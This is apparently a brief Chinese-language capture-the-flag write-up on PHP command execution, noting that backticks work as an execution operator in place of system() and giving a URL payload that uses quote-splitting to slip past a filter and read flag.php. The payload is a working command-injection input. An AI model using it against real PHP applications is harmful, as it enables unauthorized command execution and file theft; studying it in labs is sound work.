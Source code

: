 # 知识点
``代替system()
### php中反引号充当执行运算符
[https://www.php.net/manual/zh/language.operators.execution.php](https://www.php.net/manual/zh/language.operators.execution.php)
# 思路
```git
?c=echo%20`cat%20fl%27%27ag.ph%27%27p`;
```
![image.png](./images/20231017_2350428880.png)

